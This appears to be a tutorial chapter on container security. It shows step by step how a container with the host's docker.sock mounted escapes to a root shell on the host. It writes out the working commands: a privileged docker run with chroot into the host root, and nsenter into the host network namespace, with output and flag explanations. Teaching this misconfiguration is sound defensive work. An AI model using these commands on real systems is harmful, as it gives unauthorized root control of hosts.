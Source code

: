 # Docker-sock

When we run docker CLI using `docker` we are basically talking with a docker daemon which runs as privileged
(because we need to be a root to create a new namespace) on the host. This is done using the `docker.sock`
which is usually located at `/var/run/docker.sock`.

There is a common practice called DIND (Docker inside Docker), which was mostly used for CI process to allow us to build
docker images. This was needed because as we could see in previous chapters we need a container to build a Docker image.
And container/runner on CI is a container itself, so the best way was to mount docker.sock from host inside spawned container.

This pattern can also be seen all over the Github.

Lets see/abuse it in practice:

1. To use DIND we just need to mount docker.sock inside container.

```bash
root@ubuntu-s-1vcpu-2gb-fra1-01:/# docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock alpine
/ #
```

Notice that I didn't add any privileges.

2. Now that docker.sock is mounted inside container we need to communicate with it.

We could use API calls directly but because we are lazy we can install `docker-cli`

```bash
/ # apk update
fetch https://dl-cdn.alpinelinux.org/alpine/v3.19/main/x86_64/APKINDEX.tar.gz
fetch https://dl-cdn.alpinelinux.org/alpine/v3.19/community/x86_64/APKINDEX.tar.gz
v3.19.1-358-g8df340e3e71 [https://dl-cdn.alpinelinux.org/alpine/v3.19/main]
v3.19.1-357-g74cc9556025 [https://dl-cdn.alpinelinux.org/alpine/v3.19/community]
OK: 22991 distinct packages available
/ # apk add docker-cli
(1/2) Installing ca-certificates (20240226-r0)
(2/2) Installing docker-cli (25.0.3-r2)
Executing busybox-1.36.1-r15.trigger
Executing ca-certificates-20240226-r0.trigger
OK: 33 MiB in 17 packages
```

3. Use docker CLI to talk with daemon.

```bash
/ # docker ps
CONTAINER ID   IMAGE     COMMAND     CREATED              STATUS              PORTS     NAMES
0beee052b2be   alpine    "/bin/sh"   About a minute ago   Up About a minute             pensive_margulis
```

Basically we see the container we are in inside our container (inception) because remember daemon is still
running on the host.

4. Escape the container

```sh
docker run -it --rm --security-opt=apparmor:unconfined -v /:/tmp/root --privileged --pid=host alpine chroot /tmp/root sh
```

Lets break it down:

- `--security-opt=apparmor:unconfined`: When Docker runs containers it also applies some basic AppArmor (MAC) profile.
  Becase we don't want restrictions we can just remove it (on K8s there is no default apparmor enabled by default).
- `-v /:/tmp/root`: We want to mount `/` to `/tmp/root` inside container. But because daemon runs on host this will
  mount host root on `/tmp/root` inside container.
- `--privileged`: Because we don't want to be restricted by missing capabilities.
- `--pid=host`: I don't want Docker to isolate process ID namespace. So I can see all the processes that are running on host
- `chroot /tmp/root sh`: When container spawns I want to change root on the host root and give myself shell.

5. Inspect results

Inside "container":

```bash
touch /tmp/from-container
```

On host:

```bash
root@ubuntu-s-1vcpu-2gb-fra1-01:~# ls /tmp/ | grep container
from-container
```

We see we have access to host filesystem.

This could be done without --privileged, --pid=host, --security-opt flags as well.
What I wanted to point out is that currently there are still things isolated.

Example:

```bash
# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
11: eth0@if12: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:11:00:03 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.3/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

We are still in isolated network namespaces (and others)..

But with those flags I can just enter all of the host namespaces.

```bash
# nsenter --target 1 --net sh
```

This indicates to join same network namespace that PID with 1 is. Because 1 is the root process when OS starts
we will join host net namespace.

```bash
# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 12:c8:da:c0:c4:70 brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    altname ens3
    inet 165.232.68.145/20 brd 165.232.79.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet 10.19.0.5/16 brd 10.19.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::10c8:daff:fec0:c470/64 scope link
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 2e:b2:d1:d3:9f:e9 brd ff:ff:ff:ff:ff:ff
    altname enp0s4
    altname ens4
    inet 10.135.0.2/16 brd 10.135.255.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::2cb2:d1ff:fed3:9fe9/64 scope link
       valid_lft forever preferred_lft forever
4: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:79:f7:c5:51 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
...
```
